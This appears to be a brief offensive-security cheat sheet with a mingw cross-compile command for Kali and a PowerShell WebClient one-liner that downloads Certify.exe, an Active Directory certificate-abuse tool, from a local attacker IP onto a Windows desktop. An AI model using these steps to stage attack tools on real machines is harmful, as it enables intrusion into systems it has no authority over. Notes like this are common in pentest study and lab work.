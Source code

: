 Cross compiling on KALI:
---
```bash
i686-w64-mingw32-gcc -o test.exe test.c
```

Download file using PowerShell:
---
#powershell #download #windows
```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
